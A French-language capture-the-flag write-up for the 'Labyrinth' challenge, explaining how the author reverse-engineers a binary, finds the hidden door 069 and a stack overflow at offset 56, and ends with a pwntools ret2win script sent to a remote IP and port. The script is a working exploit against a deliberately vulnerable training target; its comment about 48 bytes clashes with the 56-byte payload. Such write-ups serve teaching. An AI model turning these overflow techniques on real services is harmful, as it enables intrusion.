

# Labyrinth - Nerumir

- On me présente un service distant et j'ai le binaire téléchargeable pour l'analyser. Lorsque je lance le binaire, on me propose un choix entre `100` portes, et quand j'en choisis une, je perds.

- J'examine le binaire et puis je renomme les variables et différents objets pour y voir plus clair, je commente également le code (premier screen) :

 

> [!TIP]
> On peut alors voir qu'en choisissant la porte `069`, alors on à le droit de ne pas échouer. Je le fais donc et j'observe qu'il faut encore jouer. Avant y'a un `malloc`, pour le premier prompt, mais aucun débordement de tampon (`16` contre `5`), sinon ça aurait été un `heap overflow` car les `malloc` allouent de la mémoire dans le `heap`.

- J'observe qu'effectivement sur la section suivante, il y a un `overflow` de type `stack`, sur la variable que j'ai renommée `second_user_input`. Il y a la `libc`, malheureusement un `FULL RELRO` donc pas de `ret2dlresolve`. De toute façon, le but n'est pas de spawn un `shell` car je trouve une fonction `escape_plan` qui me permet de lire le flag :

 

- Je teste la petite `stack overflow` :

 

- Je trouve un offset de `56`, donc après le 56eme octet, on commence à overwrite l'adresse de retour de la fonction `main`. Donc je vais la remplacer par l'adresse de la fonction `escape_plan` afin d'afficher le flag et gagner. C'est une attaque de type `ret2win`. Je trouve l'adresse de la fonction `escape_plan` dans la table de symboles, tout simplement. Facile car aucun `ASLR` (`NO PIE` sur le `checksec`).

 

> [!WARNING]
> Je galère à mort pour capter qu'en fait, des fois, mettre l'adresse de la fonction à executer, indiquée dans la table des symboles ne fonctionne pas et qu'il faut ajouter quelques octets (généralement un ou deux) pour déclancher les instructions de la fonction. Je ne connais exactement la raison mais c'est un décalage que j'ai été amené à devoir faire plusieurs fois. 

Voici mon script final : 

```python
#!/usr/bin/python
from pwn import *

# Set up the process and context for the binary
binary_path = './labyrinth'
p = remote('94.237.63.129','55966')
context.binary = binary_path

# Create the payload
# The buffer size is 56 bytes, and the saved RBP is 8 bytes. Hence, we need 48 bytes before we overwrite the return address.
payload = b'A' * 56 + p64(context.binary.symbols['escape_plan'] + 1)

# Respond with the right door number
response = p.recvuntil(b'>>')
p.sendline(b'069')
response = p.recvuntil(b'>>')

# Send the payload for ret2win
p.sendline(payload)

# Print leaked flag
response = p.recvrepeat(10)
print(response.decode())
```
